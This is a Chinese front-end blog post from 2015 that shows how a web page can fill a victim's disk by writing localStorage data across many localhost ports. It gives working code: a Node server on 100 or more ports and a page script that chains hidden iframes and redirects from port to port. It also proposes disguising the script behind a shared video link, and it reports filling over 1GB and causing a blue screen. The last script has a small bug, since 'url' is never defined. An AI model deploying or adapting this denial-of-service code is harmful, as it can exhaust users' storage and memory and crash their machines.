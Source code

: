 ```yaml
---

title: "作为一个前端，可以如何机智地弄坏一台电脑？"
date: 2015-07-06 22:30
comments: true
reward: true
tags: 
	- 安全 
	- js
	- 黑科技
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少 bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。

<!-- more -->

### 起因

故事得从 localStorage 说起。

html5 的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows 下的 chrome，localStorage 存储于`C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage`文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC 侧的上限是 5M-10M 之间，移动侧是则不大于 2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个`域名+端口`。
也就是说，你访问`同一个域名的不同端口`，它们的 localStorage 并无关联，是分开存储的。

我用 node 简单地开启了服务器，这时，用户访问`http://127.0.0.1:1000`到`http://127.0.0.1:1099`这 100 个端口，会请求到同一个页面：`index.html`：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个 index.html 里涉及了 localStorage 写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何`让用户自动遍历这些端口`？

iframe 是个好的尝试。
只要一打开`http://127.0.0.1: 1000`，页面的脚步就会创建一个 iframe，去请求`http://127.0.0.1: 1001`，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然 iframe 我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的 C 盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到 1081 端口，最新的 chrome 就崩溃掉了…原来 iframe 嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C 盘还未撑满，同志还需努力。怎么办？

突然想到，到达 iframe 极限之前，我们可以重定向啊。
每访问 50 个端口，就使用`window.location.href`重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问`http://127.0.0.1: 1000`，就会往 Local Storage 文件夹里写入近 500M 无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)

### 继续实验的黑科技

算了下我的 C 盘还有空间嘛，那就把端口数量从 100 增长到 200 个。
结果是这样的，到达了 1.17G 大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行`localStorage.setItem()`后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被 chrome 先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：

1. 等待；
2. 用任务管理器关掉 chrome 进程，再等待；
3. 相信并尝试“重启电脑解决 90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将`安全问题上交给国家的初衷`去做的（是的就是这么纯粹）。

后续，看着 C 盘还有 2G 空间，我又把端口增长到 2000 个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…
